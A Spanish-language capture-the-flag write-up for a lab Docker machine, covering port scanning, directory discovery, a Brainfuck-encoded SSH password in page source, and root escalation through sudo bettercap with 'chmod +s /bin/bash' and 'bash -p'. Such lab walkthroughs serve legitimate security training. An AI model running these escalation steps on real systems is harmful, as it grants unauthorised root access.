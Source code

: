```yaml
---
Maquina: aduademayo
SO: Linux
Explotación: Análisis de imágenes y web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - analisis_imagen
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -Pn 172.17.0.2
```

![[Pasted image 20241023091043.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241023091123.png]]

Como se puede apreciar es la página por defecto de apache. Vamos a intentar ver si hay alguna web adicional mediante Gobuster y nos encontramos lo siguiente:

![[Pasted image 20241023091616.png]]

![[Pasted image 20241023091635.png]]

Al parecer hay una imagen almacenada dentro de la web, vamos a analizarla a ver si contiene algo de información. La imagen es la siguiente:

![[Pasted image 20241023091714.png]]

3. **Análisis de la imagen**:

Tras analizar la imagen en detalle sin lograr nada (incluso probando fuerza bruta con steghide) volví a revisar las webs que teníamos y me topé con el siguiente código en el código fuente de la página principal de apache.

![[Pasted image 20241023093958.png]]

```brainfuck 
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```

Parece que está condificado con brainfuck y al descifrarlo sale la cadena "bebeaguaqueessano". Si probamos a utilizar steghide con bebeaguaqueessano no encontraremos nada y es que tenemos que utilizar el nombre de la imagen como usuario de ssh "agua" y la pass si que es la cadena que hemos decodificado.

![[Pasted image 20241023095328.png]]

## Escalada de privs:

3. **Escalada de privs**:

```bash 
sudo -l
```

Si observamos los permisos de sudo que tenemos para la ejecución de comandos nos encontramos que podemos ejecutar bettercap.

![[Pasted image 20241023095504.png]]

Si ejecutamos bettercup con

```bash 
sudo bettercup
```

podremos observar como tenemos privilegios de root

![[Pasted image 20241023100105.png]]

y si queremos ejecutar comandos desde fuera de bettercup podemos dar permisos de superusuario al /bin/bash.

```bash 
! chmod +s /bin/bash
```

y después de salir de bettercup ejecutar

```bash 
bin/bash -p
```


